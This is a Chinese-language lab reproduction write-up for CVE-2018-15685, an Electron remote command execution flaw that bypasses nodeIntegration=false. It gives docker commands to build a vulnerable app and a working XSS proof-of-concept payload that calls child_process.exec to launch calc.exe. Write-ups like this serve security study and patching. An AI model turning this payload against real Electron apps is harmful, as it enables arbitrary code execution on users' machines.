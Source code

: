 # （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2907](https://www.zhihuifly.com/t/topic/2907)

# （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞

## 一、漏洞简介

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

## 二、漏洞影响

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

## 三、复现过程

### 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker-compose run -e PLATFORM=win64 --rm electron 
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker-compose run --rm -p 8080:80 web 
```

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![image](img/4a7fe7ac103a70924367b1965f176681.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交``，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');"> 
```

可见，calc.exe已成功弹出：

![image](img/79f7625aa04779409bcf2f8812b098fe.png)

## 参考链接

> https://vulhub.org/#/environments/electron/CVE-2018-15685/